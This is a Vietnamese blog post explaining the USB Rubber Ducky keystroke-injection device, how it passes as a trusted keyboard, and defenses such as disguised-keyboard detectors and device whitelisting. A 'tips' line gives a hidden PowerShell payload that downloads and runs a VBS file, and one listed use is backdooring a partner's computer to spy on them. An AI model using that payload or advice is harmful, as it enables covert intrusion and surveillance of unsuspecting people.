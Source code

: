 # ⚠️ ĐỪNG TIN BẤT KÌ MỘT CÁI USB NÀO !

Đã có đến hàng chục triệu máy tính chỉ ở Việt Nam lây nhiễm virus chỉ thông qua USB. Và không chỉ có vậy, việc chính bạn bị chủ đích tân công chỉ thông qua 1 lần cắm USB cũng vô cùng dễ dàng .

 Qua bài viết này tôi sẽ cho các bạn thấy được khả năng máy tính của bạn bị 1 người có ít kiến thức về IT cũng có thể hack và theo dõi mọi hoạt động của bạn là vô cùng dễ dàng  
 
Chắc các bạn cũng đã quá quen với hình ảnh trong các bộ phim như Mr.Robot  ,Blackhat (2015) việc chỉ cần cắm 1 cái usb vào và DONE ! You have been hacked ! Và điều đó là hoàn toàn có thể xảy ra là thực tế. Hãy tìm hiểu loại usb dưới đây 


## USB RUBBER DUCKY
Đây  là 1 sản phẩm của bên Hak5 sản xuất và bán trên thị trường bên Mỹ với giá 50$ 

![](https://images.viblo.asia/27295e7c-125f-4551-b9dd-735dfa08f80c.jpg)

Hãy tưởng tượng bạn có thể đi đến một máy tính cho dù bất kệ hệ điều hành nào như MacOS,Windows,Linux.., cắm một ổ USB dường như vô hại và để nó cài đặt một back door, đánh cắp mật khẩu , tài liệu hoặc làm bất kì tác vụ nào và chỉ trong vài giây.

## Vậy nó hoạt động như thế nào ? 
HID (Human Interface Device): là một phân lớp (class) trong tiêu chuẩn USB. Một thiết bị HID có thể được lập trình để định nghĩa lại chức năng của nó. Bằng cách lập trình lại vi điều khiển của thiết bị HID, tin tặc có thể giả lập các hành vi của bàn phím, chuột để gởi các thông tin dữ liệu mong muốn đến máy tính/ thiết bị kết nối nhằm thực thi mã độc chiếm quyền điều khiển.
Do đặc tính linh động và có thể định nghĩa lại vi xử lý, HID có thể ẩn mình dưới nhiều hình dạng và chức năng khác nhau như: bộ sạc nguồn, bàn phím, quạt USB, đèn USB, đầu đọc thẻ nhớ, đồng hồ,...
USB Rubber Ducky truyền tải payloads mạnh mẽ trong vài giây bằng cách tận dụng sự tin tưởng tất cả các thiết bị HID (đánh lừa nó là thiết bị HID và được máy tính xác nhận Trust ) và đồng thời khi đánh lừa con người bằng cách giả làm một ổ USB thông thường. 

![](https://images.viblo.asia/86b19df4-547c-40e0-b03c-a14207c12d94.png)

Như bạn biết, một USB thông thường hay bàn phím thì khi kết nối đến máy tính sẽ hoạt động bình thường như đúng chức năng của nó

Nếu đó là USB thông thường chứa mã độc (thường thì trong usb có các payload và sẽ autorun để khi cắm vào sẽ execute chúng )thì khi cắm vào máy tính sẽ bị trình diệt Virus quét các payload trong nó và xóa ngay lập tức, hoặc bị tắt hay xóa mất autorun, nếu muốn chạy thì phải vào usb và chạy script bằng tay.

Đối với bàn phím sử dụng để execute mã độc hay chính là loại USB Rubber ducky tôi nói đến trong bài viết này thì trình diệt Virus sẽ bỏ qua vì máy tính nhận nó như một thiết bị ngoại vi, hiện lên là “Keyboard” - bàn phím trong Device Manager.

![](https://images.viblo.asia/8dd1b770-0915-44bc-ad5f-56f90a3935db.jpg)

Nó xảy xa bởi vì gần như mọi thiết bị máy tính đều chấp nhận một input từ bàn phím, do đó, thiết bị này nhắm đến đặc điểm HID phổ biến - Hay có thể hiểu là máy tính sẽ nhận diện USB kia chính là 1 bàn phím bình thường . Nó sẽ tự thông báo cho máy tính là thiết bị HID và lần lượt tự động được nhận dạng và chấp nhận. Hay nói cho đơn giản, nó giống như việc bạn ngồi ngay đó và tự gõ và thực thi bất kỳ lệnh gì bằng chính bàn phím của bạn (Nhưng lần này nhờ vào CPU 60MHz trong USB đó nên việc "gõ" nó sẽ chỉ xảy ra trong 1 vài giây). Vậy thì dù có mở ra 1 backdoor kết nối ra bên ngoài thì hành động đó cũng chính là do "tự bạn thực thi bằng bàn phím" cho nên av sẽ không detect và xóa.

## Thông số :

- Sử dụng Script riêng khá đơn giản gọi là Ducky Script để tạo ra các payload. Chi tiết bạn có thể tìm ở https://ducktoolkit.com/
- Sử dụng 60 MHz 32-bit CPU AT32UC3B1256
- Hỗ trợ cổng USB loại A,  thể nhớ ngoài , nút bấm để thực thi , chip JTAG interface với GPIO và DFU bootloader

## Mục đích sử dụng :
- Có vẻ khá hợp lý với những ai lười config 1 cái gì đó làm đi làm lại liên tục thì có thể tạo 1 script rồi chỉ việc cắm vào thôi 
- Hack máy tính người yêu , mở 1 backdoor chẳng hạn để xem xem có cặp sừng nào của mình trong máy không
- Nó có thể gõ 1000 từ/ phút cho nên việc hack mà không phát hiện khá là dễ. Chỉ việc cắm vào và nó sẽ gõ và thực thi các script và payload có sẵn và cho hết thúc chỉ trong vài giây mà **không bị AV detect và chặn**

## Demo 
{@embed: https://www.youtube.com/watch?v=RO7qcNPAyfY}

tips: 
STRING powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('http://127.0.0.1/sc.txt', '%temp%/update.vbs'); %temp%/update.vbs
in the line of code you would write " windowstyle hidden"
thats how you can keep it in the background

## Cách ngăn chặn:
Để ngăn chặn bị tấn công bằng cách sử dụng những loại USB như thế này thì bạn có thể :

- Sử dụng ứng dụng Penteract Disguised-Keyboard Detector
Penteract Disguised-Keyboard Detector nhận diện sự tân công bằng cách khóa màn hình khi mà nhận diện 1 bàn bàn phím được cắm vào. Điều đó có nghĩa nếu mà đó là bàn phím thật thì bạn chỉ việc mở khóa màn hình như bình thường.. Còn nếu không phải thì máy tính sẽ không thực thi các câu lệnh cho đến khi chủ của máy tính đó ở đó và mở màn mình

- Sử dụng Product ID & Vendor ID của các thiết bị và import vào whitelisting . Nhưng nhớ rằng điều này sẽ dẫn đến hệ thống sẽ disable bất kì thiết bị nào không trong danh sách whitelist, nó có thể webcam, đầu đọc thẻ,...

## Kết thúc : 
**Bạn hứng thú với những khả năng của loại usb này? Hãy đón chờ trong bài viết tiếp theo, tôi sẽ hướng dẫn các bạn có thể có 1 con usb như thế này cho riêng mình với giá chỉ  bằng 1/3**

UPDATED : https://viblo.asia/p/tu-che-mot-usb-rubber-ducky-de-xam-nhap-Ljy5V7VkKra